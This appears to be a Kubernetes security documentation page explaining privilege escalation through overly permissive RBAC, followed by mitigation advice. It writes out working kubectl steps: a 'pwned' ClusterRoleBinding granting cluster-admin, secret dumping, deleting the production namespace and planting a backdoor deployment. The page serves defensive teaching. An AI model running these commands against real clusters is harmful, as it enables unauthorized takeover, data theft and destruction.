 ```yaml
---
sidebar_position: 8
title: "Insecure RBAC Permissions"
description: "Understanding how overly permissive RBAC configurations can lead to unauthorized access and privilege escalation in Kubernetes."
---
```


# Insecure RBAC Permissions

**Role-Based Access Control (RBAC)** is a core security mechanism in Kubernetes, defining which users or service accounts can perform which actions on which resources. When RBAC policies are overly permissive or misconfigured, they can become a critical attack vector for unauthorized access and full cluster compromise.

---

## Exploitation Scenario: Privilege Escalation via Misconfigured RBAC

An attacker leverages weak RBAC configurations to escalate privileges and gain full control over the Kubernetes cluster.

---

### Step 1: Enumerate Existing RBAC Roles and Bindings

Using any account that has permission to list RBAC objects, the attacker inspects roles and bindings:

```bash
kubectl get roles,rolebindings,clusterroles,clusterrolebindings -A
```

They look for signs of:

- Bindings to `cluster-admin`
- Use of wildcards (`'*'`) for verbs or resources
- Broad permissions granted to non-admin users

---

### Step 2: Impersonate a More Privileged User

If the user has `impersonate` privileges or is bound to a wildcard rule, they test their effective access:

```bash
kubectl auth can-i '*' '*' --as=admin
```

If the output is:

```
no
```

They cannot yet impersonate the `admin` user. But they may still be able to create bindings if RBAC is lax.

---

### Step 3: Create a Malicious ClusterRoleBinding

If the current user can bind a `ClusterRole`, the attacker creates a new binding that escalates privileges.

**Malicious binding:**

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin
subjects:
  - kind: User
    name: admin
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Apply it:

```bash
kubectl apply -f pwned-cluster-admin.yaml
```

---

### Step 4: Verify Escalated Access

Now that the `admin` user is bound to `cluster-admin`, test again:

```bash
kubectl auth can-i '*' '*' --as=admin
```

Expected output:

```
yes
```

This confirms that the attacker (or anyone impersonating `admin`) now has unrestricted access across the cluster.

---

### Step 5: Perform Arbitrary Cluster Actions

With full `cluster-admin` access, the attacker can now do the following:

```bash
kubectl exec -it <pod-name> -- /bin/sh
kubectl delete namespace production
kubectl get secrets -A
kubectl create deployment backdoor --image=alpine -- /bin/sh -c 'sleep infinity'
```

They can even install or modify CRDs, escalate service accounts, or tamper with kube-system components.

---

## Result

The attacker gains **full administrative access** over the Kubernetes cluster. This enables:

- Arbitrary command execution
- Data exfiltration
- Persistent backdoors
- Deletion of workloads or namespaces

---

## Mitigation Steps

To prevent abuse of RBAC:

- Apply the **principle of least privilege**
- Avoid using `'*'` in `verbs` and `resources`
- Scope `Roles` to namespaces instead of using `ClusterRoles` when possible
- Regularly audit RBAC policies and bindings
- Prevent creation of new `ClusterRoleBindings` without approval
- Block wildcard impersonation rights

For more comprehensive mitigation techniques, refer to:

➡ **[Securing RBAC Permissions](/docs/best_practices/cluster_setup_and_hardening/rbac_and_identity/insecure_rbac_permissions_mitigation)**
